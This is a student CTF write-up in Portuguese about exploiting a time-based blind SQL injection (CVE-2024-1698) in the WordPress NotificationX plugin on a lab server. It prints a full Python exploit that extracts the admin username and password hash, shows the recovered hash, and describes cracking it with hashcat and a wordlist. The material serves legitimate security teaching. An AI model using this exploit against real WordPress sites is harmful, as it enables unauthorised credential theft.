


## CTF WEEK8

### Questões

- Já sabes que queremos explorar uma vulnerabilidade de SQL injection. Será que existem vulnerabilidades reportadas em bases de dados públicas e/ou ferramentas que permitem automatizar a descoberta e abuso de vulnerabilidades de SQL injection?

Sim, encontrámos num [github](https://github.com/kamranhasan/CVE-2024-1698-Exploit) um exploit que nos permitia obter a hash da password mudando alguns parametros, descobrimos que era este o exploit pois percebemos que o wordpress estava a usar um plugin chamado notificationx que ao clicar nos levava para uma página com um comentárioa de um "hacker"

- Qual o endpoint do site vulnerável, e de que forma se pode realizar um ataque? Como pode ser catalogada a vulnerabilidade?

A vulnerabilidade é claramente uma **sql injection**, e o endpoint que utilizámos no exploit foi este http://44.242.216.18:5008/wp-json/notificationx/v1/analytics, que através de requests **post** permitiu explorar a vulnerabilidade do servidor wordpress.

- O ataque permitir-te-á extrair informação da base de dados do servidor. Em particular, queres descobrir a palavra-passe do administrador, mas como ditam as boas normas de segurança esta não é armazenada em limpo na base de dados, sendo armazenada apenas uma hash da palavra-passe original. Para este servidor, e em mais detalhe, qual a política de armazenamento de palavras-passe?

Depois de alguma procura online, percebemos que como a generalidade dos servidores wordpress, este servidor também utiliza algoritmos de hash como **phpass** e **bcrypt**, e com mais análise, percebemos que a palavra passe foi armazenada com uma boa politica, pois continha um **salt** aleatório e único para a password e outra parte gerada pelo algoritmo **bcrypt**

- Será que armazenar uma hash da palavra-passe é seguro, no sentido em que torna impossível a recuperação da palavra-passe original? Esta problemática é muito comum não só aquando de vulnerabilidades, mas também no caso de data leaks. Há várias formas de tentar reverter funções de hash para palavras-passe e ferramentas para automatizar o processo.

Armazenar a hash de uma password é seguro, mas não é impossivel de quebrar como vamos mostrar na explicação da exploração da vulnerabilidade, através de diversos ataques existentes é possivel ter a palavra passe mesmo esta sendo armazenada em hash. O **hashcat** e **john the ripper** são exemplos de algoritmos que podemos usar para tentar quebrar as hashes.


### Explicação do ataque

- Com o exploit que encontrámos no [github](https://github.com/kamranhasan/CVE-2024-1698-Exploit), fomos realizando algumas trocas,especialmente no delay, até obter uma hash password que fosse semelhante no início à dica dada na página do "hacker" quando clicavamos na notificação **"notificationx"** (hash começa por $P$B).

```
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 4.6

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008/wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

- Ao executar o programa, conseguimos obter a hash da password do admin("$ P $ BuRuB0Mi3926H8h.hcA3pSrUPyq0o10")




- Depois de descobrirmos a hash, procurámos ferramentas que nos ajudassem a quebrar a hash, e para isso utilizámos o hashcat, com um ficheiro [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) que basicamente contem milhares de passwords diferentes, para as quais o hashcat vai criar a hash e comparar com a hash que lhe fornecemos.



- Rapidamente com este algoritmo conseguimos encontrar a password e consequentemente a flag do ctf com sucesso
flag->flag{heartbroken}.